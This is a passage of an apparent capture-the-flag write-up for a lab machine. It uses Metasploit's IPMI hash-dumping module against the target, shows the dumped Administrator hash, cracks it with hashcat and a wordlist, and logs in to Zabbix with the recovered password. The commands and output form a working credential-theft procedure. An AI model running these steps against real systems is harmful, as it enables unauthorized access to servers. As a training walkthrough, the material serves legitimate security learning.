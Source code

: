There's also a metasploit module for dumping password hashes using this vulnerability: https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/

![](screenshots/module-info.png)

Dump some passowrd hash 
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS 10.10.11.124
RHOSTS => 10.10.11.124
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set OUTPUT_hASHCAT_FILE hash.cat
OUTPUT_hASHCAT_FILE => hash.cat
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:763fdea402871f00d8c34ccbdd521760dbff76f5a0c8fc1c74de67248e196135d83dfafd88d840a3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:6016af14efa2712414fb09c26675de2e7c2ccb20
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

dumped hashes output in the `hash.cat` file and directly load in hashcat
```bash
❯ hashcat --username -m 7300 hash.cat /usr/share/wordlists/rockyou.txt --show
10.10.11.124 Administrator:763fdea402871f00d8c34ccbdd521760dbff76f5a0c8fc1c74de67248e196135d83dfafd88d840a3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:6016af14efa2712414fb09c26675de2e7c2ccb20:ilovepumkinpie1
```

Creds: `Administrator:ilovepumkinpie1`

And successfully loged in to zabbix(`zabbix.shibboleth.htb`) with found creds.
